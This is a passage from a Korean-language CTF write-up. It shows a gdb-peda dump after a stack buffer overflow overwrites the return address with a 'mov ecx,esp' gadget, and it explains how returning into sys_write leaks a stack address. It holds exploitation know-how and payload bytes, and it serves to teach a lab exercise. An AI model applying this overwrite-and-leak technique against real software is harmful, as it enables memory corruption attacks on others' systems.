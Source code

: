 다음은 오버플로우를 일으켜 RET의 값을 변조한 상태이다.

```
[----------------------------------registers-----------------------------------]
EAX: 0x18 
EBX: 0x0 
ECX: 0xff921864 ('A' <repeats 20 times>, "\207\200\004\b\200\030\222\377\001")
EDX: 0x3c ('<')
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xff921864 ('A' <repeats 20 times>, "\207\200\004\b\200\030\222\377\001")
EIP: 0x8048099 (<_start+57>:	add    esp,0x14)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048093 <_start+51>:	mov    dl,0x3c
   0x8048095 <_start+53>:	mov    al,0x3
   0x8048097 <_start+55>:	int    0x80
=> 0x8048099 <_start+57>:	add    esp,0x14
   0x804809c <_start+60>:	ret    
   0x804809d <_exit>:	pop    esp
   0x804809e <_exit+1>:	xor    eax,eax
   0x80480a0 <_exit+3>:	inc    eax
[------------------------------------stack-------------------------------------]
0000| 0xff921864 ('A' <repeats 20 times>, "\207\200\004\b\200\030\222\377\001")
0004| 0xff921868 ('A' <repeats 16 times>, "\207\200\004\b\200\030\222\377\001")
0008| 0xff92186c ('A' <repeats 12 times>, "\207\200\004\b\200\030\222\377\001")
0012| 0xff921870 ("AAAAAAAA\207\200\004\b\200\030\222\377\001")
0016| 0xff921874 ("AAAA\207\200\004\b\200\030\222\377\001")
0020| 0xff921878 --> 0x8048087 (<_start+39>:	mov    ecx,esp)
0024| 0xff92187c --> 0xff921880 --> 0x1 
0028| 0xff921880 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048099 in _start ()
gdb-peda$ 
```

스택 구조를 살펴보자. esp(0xff921864)에서부터 +0x10(0xff921874)까지 'A'로 쓰여진 것을 확인할 수 있다.
다음 _exit 함수의 주소가 존재하던 esp+14(0xff921878)의 값이 'mov ecx,esp'로 변조되어 있다.
그럼 다시 sys_write함수로 리턴을 하게 될 것이다. 이 때 흐름을 생각하면 leak 되는 원리를 파악할 수 있다.
기존에 **"Let's start the CTF: "** 문자열이 출력되는 것을 보면 push 한 문자열을 ecx에 담아 인자로 전달하는 것을 확인할 수 있다.

그렇다면 'add esp, 0x14'를 통해 스택을 정리하였기 때문에 처음 _start 함수가 시작되는 stack frame의 주소가 leak되는 것이다.

## [+] Reference

1. <a href="https://syscalls.kernelgrok.com/">*"syscall func"*</a>
2. <a href="https://ko.wikipedia.org/wiki/%EC%8A%A4%ED%83%9D_%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C">*"Stack buffer overflow"*</a>
3. <a href="http://9oat.tistory.com/4">*"Memory leak"*</a>